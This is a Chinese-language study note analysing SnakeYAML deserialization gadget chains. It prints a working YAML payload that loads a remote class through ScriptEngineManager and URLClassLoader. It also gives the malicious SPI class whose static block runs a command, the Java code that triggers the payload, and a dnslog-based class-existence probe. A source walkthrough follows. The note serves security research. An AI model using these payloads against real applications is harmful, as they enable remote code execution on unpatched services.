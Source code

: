 # SnakeYaml反序列化链

## 前言

和jackson类似，利用链有很多种，选择其中典型的和特殊的学习，别的只记下POC了。

## ScriptEngineManager利用链

需要利用到SPI的知识，建议学过SPI之后再来理解。

### POC

```java
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:39876/"]]]]
```

先写个Poc类：

```java

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class Poc implements ScriptEngineFactory {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}

```

编译之后在和Poc.class这个目录中创建`META-INF/services/javax.script.ScriptEngineFactory`，里面写：

```
Poc
```

然后攻击：

```java
        String s = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:39876/\"]]]]";
        Yaml yaml = new Yaml();
        User user = yaml.load(s);
```

![image-20220310185413143](SnakeYaml反序列化链.assets/image-20220310185413143.png)

### 分析

打断点之后分析，总的流程之前之前调试过了也都知道，看看具体细节上的不同。

在这里根据参数的数量查找可能匹配的构造器：

![image-20220310185854148](SnakeYaml反序列化链.assets/image-20220310185854148.png)

POC的那种传参方式是要把`!!java.net.URLClassLoader`作为参数调用`ScriptEngineManager`的构造器了。

然后递归进行：

```java
                        for (Node argumentNode : snode.getValue()) {
                            Class<?> type = c.getParameterTypes()[index];
                            // set runtime classes for arguments
                            argumentNode.setType(type);
                            argumentList[index++] = constructObject(argumentNode);
                        }
```

对作为参数传递的那个对象进行解析，这样依次又解析到了`!!java.net.URL`，依次类推。

解析完内部参数之后，跳出进行`newInstance`

```java
                        try {
                            c.setAccessible(true);
                            return c.newInstance(argumentList);
```

最后调用的是这个构造器：

```java
    public ScriptEngineManager(ClassLoader loader) {
        init(loader);
    }
```

`loader`就是我们传入解析而得的`URLClassLoader`：

![image-20220310190645188](SnakeYaml反序列化链.assets/image-20220310190645188.png)

进入`init()`，再进入`initEngines()`，看到这熟悉的代码：

![image-20220310190839883](SnakeYaml反序列化链.assets/image-20220310190839883.png)

在这里：

![image-20220310191138188](SnakeYaml反序列化链.assets/image-20220310191138188.png)

根据`itr`来加载响应的SPI实现类，`itr`的Loader是我们设置的那个URLClassLoader，所以寻找SPI机制中的实现类和services文件夹下的文件都是在指定的URL下寻找的。

`itr.next()`之前分析SPI的时候也提到了会反射调用来实例化，所以恶意代码写在static里面可以执行，导致rce。



## 判断类存在

```java
 String poc = "[!!判断的类全类名 []: 0, !!java.net.URL [null, \"http://ixvoxg.dnslog.cn\"]: 1]";
```



## 其他的利用链

跟fastjson还有jackson也不会有太大的差别。直接参考网上的即可。

https://www.mi1k7ea.com/2019/11/29/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#Resource

https://y4tacker.github.io/2022/02/08/year/2022/2/SnakeYAML%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8F%8A%E5%8F%AF%E5%88%A9%E7%94%A8Gadget%E5%88%86%E6%9E%90/#1-%E5%88%A9%E7%94%A8SPI%E6%9C%BA%E5%88%B6-%E5%9F%BA%E4%BA%8EScriptEngineManager%E5%88%A9%E7%94%A8%E9%93%BE